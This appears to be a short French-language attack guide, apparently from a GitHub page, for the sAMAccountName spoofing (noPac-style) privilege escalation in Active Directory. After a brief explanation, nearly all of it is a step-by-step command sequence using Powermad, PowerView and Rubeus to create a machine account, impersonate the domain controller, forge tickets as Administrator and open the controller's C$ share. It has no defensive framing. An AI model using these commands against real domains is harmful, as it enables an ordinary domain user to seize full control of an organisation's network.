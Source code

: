 Permet a un utilisateur authentifier sur le domaine de pouvoir ajouter une machine au domaine avec un mot de passe qui est defini que l'on connait.

De modifier le  l'attribut `SamAccountName` dans l'annuaire pour ursurper le nom du `DC` et en suite utiliser cette nouvelle machine avec le nom du DC quel ursurpe de l'utiliser pour genere un TGT pour dire `Nous sommes DC`.

Et en suite remettant le nom par defaut de la machine cette fois si communiquer avec le veritable DC en lui presentant notre TGT qui porte son propre nom en lui demandant un TGS et donc pour avoir la totaliter des droits sur le DC.


---

`Powermad.ps1` permet d'ajouter une machine au domaine et renommer l'attribut SamAccountName de la machine

`PowerView.ps1` permet de supprimer le SPN de la machine

---
Poste Client sur un domaine avec un utilisateur admin local

```
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount W10 -Domain dom.local -DomainController dc.dom.local -Verbose
```

```
Import-Module .\PowerView.ps1
Set-DomainObject "CN=W10,CN=Computer,DC=dom,DC=local" -Clear 'serviceprincipalename' -Verbose
```

```
Set-MachineAccountAttribute -MachineAccount W10 -Value "DC" -Attribute sAMAccountName -Verbose
```

```
Rubeus.exe asktgt /user:DC /password:Password123 /domain:dom.local /dc:dc.dom.local /nowrap
```

```
Set-MachineAccountAttribute -MachineAccount W10 -Value "W10" -Attribute sAMAccountName -Verbose
```

```
Rubeus.exe s4u /impersonateuse:Administrateur /nowrap /dc:dc.dom.local /self /altservice:CIFS/DC.dom.local /ptt /ticket:<ticket base 64>
```

```
klist
```


```
dir \\dc.dom.local\c$
```
